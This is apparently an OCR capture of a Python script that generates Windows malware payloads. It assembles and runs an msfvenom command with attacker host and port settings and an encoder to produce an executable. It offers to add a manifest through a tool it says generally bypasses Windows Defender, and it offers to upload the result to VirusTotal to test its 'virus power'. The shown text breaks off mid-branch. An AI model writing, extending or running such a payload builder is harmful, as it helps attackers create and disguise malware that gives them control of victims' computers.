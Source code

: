   

   print(" [*]  Saveing File as payload.exe  [*] "+exe)

   print("\n [+] Ganarating Payload Please Wait..............")

   raw_payload='msfvenom -p '+payloadtype+'_'+payload_type+' LHOST='+ lhost +' LPORT='+ lport +' EXITFUNC=process --platform '+windowser+' -a x64 -e '+virusencoder+' -f '+exe+' -o '+hackerexe+''

   os.system(raw_payload)

   if hackerexe not in raw_payload :

         erroFound = os.error(raw_payload)

         rooter = print(" [$] Sorry we Can't Create File Check your Command Again [$] \n\n""khan@parrot]─[~]",erroFound)

         sys.exit()

   print(" [@] Do you want to add Manifest (Generally Bypasses Windows Defender [@] ")

   exploiter = input(" [!] Please Type yes or no [!] ")

   if "yes" in exploiter:

      print(" [@] Please Wait Adding Manifest [@] at ",hackerexe)

      man='wine bypasserav.exe -manifest template.exe.manifest -outputresource:'+hackerexe+';#1 '

      os.system(man)

   elif "no" in exploiter:

      print(" [%] OK ... DONE [%] ")

   

   else:

      print(" [%] 010010101001011010101001 [%] ")

   

   #print(raw_payload)

   print(" [+] For Chacking Your Virus Power You Can upload On Virus Total [+] ")

   virusTotal = input(' [+] You Want To Upload [+] type : yes or no ::   ')

   

   if "yes" in virusTotal:

      print(" [+] PLease Wait Uploading is Take a few minutes......... [+] ")

      virusTotal0 = 'msf-virustotal -f '+hackerexe+''

      os.system(virusTotal0)

   elif "no":

      print(" \n\n(=*=*=*=*=*=*=*=*=*= [*] Allah Hafez [*] =*=*=*=*=*=*=*=*=*=)\n\n ")

      sys.exit()

   else:
